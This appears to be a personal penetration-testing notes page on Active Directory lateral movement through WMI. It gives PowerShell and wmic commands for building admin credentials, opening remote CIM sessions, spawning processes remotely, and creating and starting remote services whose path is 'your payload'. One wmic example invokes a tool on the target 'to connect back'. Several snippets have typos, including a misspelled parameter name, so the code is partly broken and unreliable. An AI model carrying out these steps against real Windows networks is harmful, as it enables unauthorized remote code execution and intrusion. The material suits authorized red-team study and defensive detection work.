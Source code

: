# AD Lateral Movement - WMI

Windows Management Instrumentation (WMI) is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. Not to be confused with `wmic` see [[WMI-Commands]] for more uses of WMI's Command Line utility. Regardless WMI allows administrators to perform standard management tasks, therefore a utility to lateral movement.


## Connecting to WMI From Powershell

-   **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
-   **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

Create a PSCredential object 
```powershell
$username = 'Administrator';
$password = 'admin';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
Store sessions with `New-CimSessionOption` 
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName <computer-name> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

## Remote Process Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Remotely spawn a process from Powershell by sending a WMI request to the Win32_process class to spawn the process under the session we previously created 
```powershell
$Command = "powershell.exe ..." # Enter a command here
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -arguments @{ CommandLine = $Command }
```
Output of command and processs create will both be silent. Legacy system can use `wmic.exe`:
```powershell
wmic.exe /user:Administrator /password:admin /node:<target computer name> process call create "cmd.exe /c <whatever tool you have on the target to connect back!>"
```

## Remote Service Creation with WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Create a sevice with Powershell; Importantly `PathName` is your payload and the `ServiceType` completed below and is a `Win32OwnProcess` Starting a service in a new Process. The `Name` and `DisplayName` are just the naming of this SErvices
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguements @{
Name = "";
DisplayName = "";
PathName = ""; 
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}
```
Use the service name to start like so:
```powershell
$Service = Get-CimInstance -CimSession $SEssion -ClassName Win32_SErvice -filter "Name LIKE '<service name>'" 

Invoke-CimMethod -InputObject $Service -MethodName StartService
# Stop and delte with the following:
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```
